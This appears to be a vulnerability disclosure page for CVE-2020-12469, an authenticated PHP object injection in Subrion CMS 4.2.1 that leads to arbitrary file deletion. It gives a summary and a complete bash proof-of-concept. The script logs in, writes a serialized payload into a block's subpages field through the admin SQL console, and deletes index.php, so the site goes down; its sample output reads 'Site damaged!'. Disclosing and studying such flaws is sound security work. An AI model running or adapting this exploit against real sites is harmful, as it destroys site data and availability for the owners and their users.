 ```yaml
---
layout: default
title: CVE-2020-12469 - Subpages Arbitrary File Deletion
parent: Insecure Deserialization
grand_parent: Subrion CMS
nav_order: 2
---
```


# Subpages - PHP Object Injection

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is the file `/admin/blocks.php`. The manipulation of the of the **subpages** value within a block leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was presented 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12469. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=10
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/database/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a -u)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "$cookies" --data-binary "__st=$csrf_token&query=UPDATE++%60subr_blocks%60+SET+%60subpages%60++%3D+%27$payload;%27+WHERE+%60id%60+%3D+$id%3B+&show_query=1&exec_query=Go" "$target/panel/database/")

if [[ $(echo $res | grep "Query OK:" | grep "rows affected") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get block ID to trigger
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" &>/dev/null)

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the **index.php** file has been deleted. In case you need further confirmation, check for the presence of **index.php** within Subrion HOME directory.

![File deletion - Test](https://github.com/belong2yourself/vulnerabilities/raw/master/Subrion%20CMS/Insecure%20Deserialization/Subpages%20-%20Authenticated%20PHP%20Object%20Injection/subpages-test.gif)

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)